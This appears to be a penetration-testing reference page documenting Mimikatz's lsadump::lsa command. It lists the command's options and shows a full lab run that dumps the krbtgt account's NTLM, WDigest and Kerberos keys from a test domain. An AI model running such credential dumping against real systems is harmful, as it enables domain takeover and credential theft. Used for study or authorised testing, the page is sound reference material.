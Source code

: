 # lsa

`lsadump::lsa` extracts hashes from memory by asking the LSA server. The `patch` or `inject` takes place on the fly. It has the following command line arguments:

* `/name` or `/user` : the target user account
* `/id` : the RID (relative identifier) for the target account (500 for Administrator)
* `/patch` : Only dumps the LM and NT password hashes
* `/inject` : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "NTLM" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [privilege::debug](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : hacklab / S-1-5-21-2725560159-1428537199-2260736313

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : b5348d0a20a24a67ff544146a09cd292
    LM   :
  Hash NTLM: b5348d0a20a24a67ff544146a09cd292
    ntlm- 0: b5348d0a20a24a67ff544146a09cd292
    lm  - 0: 90e43747fb3e2459bc0fbd4c64a48ab4

 * WDigest
    01  96336fb9042f4823a864a9a9ea953d92
    02  f02b41fe320a26b54de6278bf432ea6b
    03  c4d6aef8b8382e686fdf2d8bb9ed4325
    04  96336fb9042f4823a864a9a9ea953d92
    05  f02b41fe320a26b54de6278bf432ea6b
    06  6db8e37630a2ccb50d640b7e0575a75d
    07  96336fb9042f4823a864a9a9ea953d92
    08  eca32a7c67f70dcd78116b548428644a
    09  eca32a7c67f70dcd78116b548428644a
    10  65ff3b022e3c992e06672a9013e9e375
    11  2faee2bbb7f3ce7eea4da160314992c1
    12  eca32a7c67f70dcd78116b548428644a
    13  8208f726be15c605b1d9531b3f6ceb68
    14  2faee2bbb7f3ce7eea4da160314992c1
    15  4097da3573ce0e22b396f673cb338223
    16  4097da3573ce0e22b396f673cb338223
    17  fa880afaaeb637fafed4121f58ae1c0e
    18  20ad95aaa3a05e5bb731bfefbd7ee823
    19  d46bc56e4021f6410468193dc7d05e58
    20  4d01f91984530f183381bdf5f0605f63
    21  1b415947d31439c2e59ecb8a0cd3daeb
    22  1b415947d31439c2e59ecb8a0cd3daeb
    23  0c54e140ce4d3af2150f66672338f6f3
    24  12f6af7e274f18cc1299f792f81610f8
    25  12f6af7e274f18cc1299f792f81610f8
    26  b68781315989472c4536e52359a0c999
    27  293f6790b0e67296db60f201ef15d75b
    28  18b300eeed3faeb12fe39754ec4537ef
    29  b00feb2fe6a6218228116b62612d6946

 * Kerberos
    Default Salt : HACKLAB.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 97ec73858998ae68

 * Kerberos-Newer-Keys
    Default Salt : HACKLAB.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
      aes128_hmac       (4096) : 3c8fc2890213fb9be3d6fb139b1be881
      des_cbc_md5       (4096) : 97ec73858998ae68

 * NTLM-Strong-NTOWF
    Random Value : 48d7d89c1608b83db8c568251f8b810f
```
